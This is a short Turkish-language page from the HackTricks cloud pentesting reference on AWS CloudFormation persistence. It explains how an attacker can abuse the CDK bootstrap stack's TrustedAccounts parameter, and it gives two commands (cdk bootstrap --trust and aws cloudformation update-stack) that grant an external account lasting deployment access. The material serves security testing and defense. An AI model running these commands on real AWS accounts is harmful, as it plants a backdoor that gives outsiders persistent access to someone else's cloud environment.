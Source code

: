 # AWS - Cloudformation Kalıcılık

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Daha fazla bilgi için bakınız:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK, `CDKToolkit` adlı bir CFN stack dağıtır. Bu stack, harici hesapların hedef hesaba CDK projeleri dağıtmasına izin veren `TrustedAccounts` parametresini destekler. Bir saldırgan, stack'i parametrelerle yeniden dağıtarak veya AWS cli ya da AWS CDK cli'yi kullanarak kendisine hedef hesaba süresiz erişim sağlamak için bunu kötüye kullanabilir.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
